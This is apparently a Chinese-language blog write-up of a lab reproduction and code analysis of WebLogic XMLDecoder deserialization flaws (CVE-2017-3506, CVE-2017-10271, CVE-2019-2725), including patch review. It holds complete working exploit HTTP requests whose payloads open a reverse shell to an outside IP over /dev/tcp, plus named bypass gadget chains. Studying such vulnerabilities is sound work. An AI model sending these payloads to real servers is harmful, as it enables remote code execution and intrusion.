# 环境搭建

利用vulhub的docke-compose一键启动，但是要修改一下yml文件才能远程调试

```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
    - "8453:8453"
```



这样就是成功的界面

进入docker修改/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh

添加代码

```
debugFlag="true"
export debugFlag
```



运行该sh，然后重启docker

可以看到8453端口开启


将源码copy出来

```
mkdir /home/Middleware
docker cp 96:/root/Oracle/Middleware/wlserver_10.3 /home/Middleware
docker cp 96:/root/Oracle/Middleware/modules home/Middleware
```

把/server/lib和modules都添加到Library里

然后配置remote debug，用8453端口



成功连接

# XMLEncoder&XMLDecoder

`XMLDecoder/XMLEncoder` 是在JDK1.4版中添加的 XML 格式序列化持久性方案，使用 XMLEncoder 来生成表示 JavaBeans 组件(bean)的 XML 文档，用 XMLDecoder 读取使用 XMLEncoder 创建的XML文档获取JavaBeans。

# XMLEncoder

```
package DawnT0wn;

import javax.swing.*;
import java.beans.XMLEncoder;
import java.io.BufferedOutputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;

public class XmlEncoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLEncoder e = new XMLEncoder(new BufferedOutputStream(new FileOutputStream("result.xml")));
        e.writeObject(new JButton("Hello,xml"));
        e.close();
    }
}
```

生成了如下的XML文件

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_181" class="java.beans.XMLDecoder">
 <object class="javax.swing.JButton">
  <string>Hello,xml</string>
 </object>
</java>
```

## string标签

就是一个字符串表示，这里就是Hello.xml

## object标签

通过 `<object>` 标签表示对象， `class` 属性指定具体类(用于调用其内部方法)，`method` 属性指定具体方法名称(比如构造函数的的方法名为 `new` )

例如

```
<object class="javax.swing.JButton" method="new">
    <string>Hello,xml</string>
</object>
```

表示调用`JButton`类的new方法，传入了字符串Hello.xml,即`new JButton("Hello.xml")`

## void标签

通过 `void` 标签表示函数调用、赋值等操作， `method` 属性指定具体的方法名称

比如说我要实现如下的操作

```
JButton b = new JButton();
b.setText("Hello, world");
```

对应的XML文档

```
<object class="javax.swing.JButton">
    <void method="setText">
    <string>Hello,xml</string>
    </void>
</object>
```

## array标签

通过 `array` 标签表示数组， `class` 属性指定具体类，内部 `void` 标签的 `index` 属性表示根据指定数组索引赋值

例如`String[] s = new String[3];s[1] = "Hello,xml";` 对应的`XML`文档

```
<array class="java.lang.String" length="3">
    <void index="1">
    <string>Hello,xml</string>
  </void>
</array>
```

# XMLDecoder

示例代码

```
package DawnT0wn;

import java.beans.XMLDecoder;
import java.io.*;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("result.xml")));
        Object result = d.readObject();
        System.out.println(result);
        d.close();
    }
}
```

可以看到通过XMLDecoder获取序列化的xml文档，打印出来了JButton

```
javax.swing.JButton[,0,0,0x0,invalid,alignmentX=0.0,alignmentY=0.5,border=javax.swing.plaf.BorderUIResource$CompoundBorderUIResource@2e817b38,flags=296,maximumSize=,minimumSize=,preferredSize=,defaultIcon=,disabledIcon=,disabledSelectedIcon=,margin=javax.swing.plaf.InsetsUIResource[top=2,left=14,bottom=2,right=14],paintBorder=true,paintFocus=true,pressedIcon=,rolloverEnabled=true,rolloverIcon=,rolloverSelectedIcon=,selectedIcon=,text=Hello,xml,defaultCapable=true]
```

其实这里有一个小问题，就是在生成和获取xml文档的时候，是通过`writeObject/readObject`获取的，但是我看到这个类并没有实现serializable接口

可能是他的序列化格式和之前我们生成的序列化不太一样，他这里的序列化格式其实就是这个xml文档

# XMLDecoder反序列化漏洞

通过上面的标签可以写一个POC.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>open -a Calculator</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

这里相当于执行

```
String[] cmd = new String[3];
cmd[0] = "/bin/bash";
cmd[1] = "-c";
cmd[2] = "open /System/Applications/Calculator.app/";
new ProcessBuilder(cmd).start();
```

当然我windows的主机可以直接执行calc，这里主要是想看看array加上调用构造函数怎么写的

最后的poc.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

通过XMLDecoder反序列化

```
package DawnT0wn;

import java.beans.XMLDecoder;
import java.io.*;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("Poc.xml")));
        Object result = d.readObject();
        d.close();
    }
}
```



# Weblogic-XMLDecoder漏洞复现

环境已经搭好了

exp

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.121.133:7001
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: text/xml;charset=UTF-8
Content-Length: 650

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>/bin/bash -i &gt; /dev/tcp/47.93.248.221/2333 2&lt;&amp;1 0&lt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

Content-Type要用text/xml

还有反弹shell这里可以会存在一些编码问题不然会报错



发送后可能要稍微等一会shell才会过来



拿到了shell

# Weblogic-XMLDecoder反序列化漏洞分析

**CVE-2017-3506&CVE-2017-10271**

影响范围

- WebLogic 10.3.6.0
- WebLogic 12.1.3.0
- WebLogic 12.2.1.0
- WebLogic 12.2.1.1
- WebLogic 12.2.1.2

`CVE-2017-3506`和`CVE-2017-10271`均是 `XMLDecoder` 反序列化漏洞，`CVE-2017-3506`修补方案为禁用 `object` 标签。

`CVE-2017-10271`是通过 `void` 、 `new` 标签对`CVE-2017-3506`补丁的绕过

所以就直接分析CVE-2017-10271，vulhub也是这个环境

`/server/lib/wls-wsat.war!/WEB-INF/web.xml`



这是一个wls-wsat组件

可以看到有很多不同的路由，在这里其实都可以触发漏洞

weblogic.wsee.jaxws.workcontext.WorkContextServerTube#processRequest开始



这里的var1就是我们传进来的xml文档

var2是数据中的headers，然后var3是从var2中获取WorkAreaConstants.WORK_AREA_HEADER得到的，也就是soap解析的结果

这里var3不为空，传入readHeaderOld里


var4是一个字节数组的输入流



这里其实就是我们而已的xml序列化数据

然后将这个包含恶意xml代码的字节输入流作为参数传入`WorkContextXmlInputAdapter`的构造函数

```
public WorkContextXmlInputAdapter(InputStream var1) {
        this.xmlDecoder = new XMLDecoder(var1);
    }
```

其实就是将他放在了XMLDecoder的构造函数中，然后返回一个 WorkContextXmlInputAdapter 实例对象到上层的 var6 

已经满足了我们上面写的XMLDecoder的第一步，接下来就是去对这个XMLDecoder进行readObject

回到readHeaderOld，var6被传入了receive，跟进一下

```
protected void receive(WorkContextInput var1) throws IOException {
        WorkContextMapInterceptor var2 = WorkContextHelper.getWorkContextHelper().getInterceptor();
        var2.receiveRequest(var1);
    }
```

将var1也就是之前的恶意xml传入receiveRequest，跟进receiveRequest



继续跟进到WorkContextLocalMap 类的`receiveRequest`



跟进readEntry



跟进readUTF



在这里进行readObject，`this.xmlDecoder`就是XMLDecoder的实例化，并且已经在刚才传入了恶意的xml数据

这里直接readObject造成命令执行

调用栈

```
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
receive:71, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
readHeaderOld:107, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
doRun:778, Fiber (com.sun.xml.ws.api.pipe)
runSync:680, Fiber (com.sun.xml.ws.api.pipe)
process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
post:336, HttpServletAdapter (weblogic.wsee.jaxws)
doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
service:99, AbstractAsyncServlet (weblogic.servlet.http)
service:820, HttpServlet (javax.servlet.http)
run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
execute:301, ServletStubImpl (weblogic.servlet.internal)
execute:184, ServletStubImpl (weblogic.servlet.internal)
wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:120, SecurityManager (weblogic.security.service)
securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
execute:2179, WebAppServletContext (weblogic.servlet.internal)
run:1490, ServletRequestImpl (weblogic.servlet.internal)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

# 补丁分析

## CVE-2017-3506补丁分析

在weblogic/wsee/workarea/WorkContextXmlInputAdapter.java添加了

```
private void validate(InputStream is) {
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```

可以看到这里匹配了object标签，如果有则抛出异常

在解析xml的过程中，如果Element字段值为Object就抛出异常，这是针对10271之前的，看看直接的payload

```
<java version="1.4.0" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
...
</java>
```

这里的标签就出现了object，再看看10271的

```
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
...
</java>
```

这就被绕过了

## CVE-2017-10271补丁分析

```
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }
```

其实就是对validate的补充，对于`object`，`new`,`method`,`void`,`array`字段抛出异常，无法生成`java`实例

如果要绕过只能用class标签，由于限制了method函数，无法进行函数调用，只能从构造方法下手，且参数为基本类型：

- 构造函数有写文件操作，文件名和内容可控，可以进行getshell。
- 构造函数有其他的反序列化操作，我们可以进行二次反序列化操作。
- 构造函数直接有执行命令的操作，执行命令可控。
- 有其它的可能导致rce的操作，比如表达式注入之类的。

目前存在的利用链有：

- FileSystemXmlApplicationContext-RCE
- UnitOfWorkChangeSet-RCE
- ysoserial-jdk7u21-RCE
- JtaTransactionManager-JNDI注入

但是这次并没有再去找相应的绕过了，只是了解了这样一个思路

# CVE-2019-2725(wls9_async组件)

受影响版本

- Oracle WebLogic Server 10.*
- Oracle WebLogic Server 12.1.3

CVE-2019-2725 exp如下

```
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 853

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1"> 
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/xxx/xxx 0>&1</string>
</void>
</array>
<void method="start"/> </void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

可能这里也会有一些字符的问题，可以参考最开始复现的poc

# CVE-2019-2725补丁

```
private void validate(InputStream is) {
WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory(); try {
SAXParser parser = factory.newSAXParser(); parser.parse(is, new DefaultHandler() {
private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName,
Attributes attributes) throws SAXException {
if (qName.equalsIgnoreCase("object")) { throw new IllegalStateException("Invalid } else if (qName.equalsIgnoreCase("class")) throw new IllegalStateException("Invalid } else if (qName.equalsIgnoreCase("new")) { throw new IllegalStateException("Invalid
element qName:object"); {
element qName:class");
element qName:new"); } else if (qName.equalsIgnoreCase("method")) {
throw new IllegalStateException("Invalid element qName:method"); } else {
if (qName.equalsIgnoreCase("void")) {
for(int i = 0; i < attributes.getLength(); ++i) {
if (!"index".equalsIgnoreCase(attributes.getQName(i))) { throw new IllegalStateException("Invalid attribute for
element void:" + attributes.getQName(i)); }
} }
if (qName.equalsIgnoreCase("array")) {
String attClass = attributes.getValue("class");
if (attClass != null && !attClass.equalsIgnoreCase("byte")) {
throw new IllegalStateException("The value of class attribute is not valid for array element.");
}
String lengthString = attributes.getValue("length"); if (lengthString != null) {
try {
int length = Integer.valueOf(lengthString); if (length >=
WorkContextXmlInputAdapter.MAXARRAYLENGTH) {
throw new IllegalStateException("Exceed array length
limitation");
}
this.overallarraylength += length; if (this.overallarraylength >=
WorkContextXmlInputAdapter.OVERALLMAXARRAYLENGTH) {
throw new IllegalStateException("Exceed over all
array limitation.");
}
                     }
```

这里吧class也过滤了，可以使用 `<array method =“forName">` 代替 class 标签


# 写在最后

这次其实主要只看了CVE-2017-3506这一个洞，了解了XMLDecoder造成的反序列化漏洞，其余的补丁绕过基本上没有认真的去看，像另外的利用方法

对于weblogic的T3和XMLDecoder的反序列化学习就先告一段落，一些补丁和对应的绕过还是等着遇到的时候再去学习吧


参考链接

https://xz.aliyun.com/t/8465#toc-10

https://xz.aliyun.com/t/5046

https://hu3sky.github.io/2019/10/16/weblogic/#CVE-2019-2725-wls9-async%E7%BB%84%E4%BB%B6
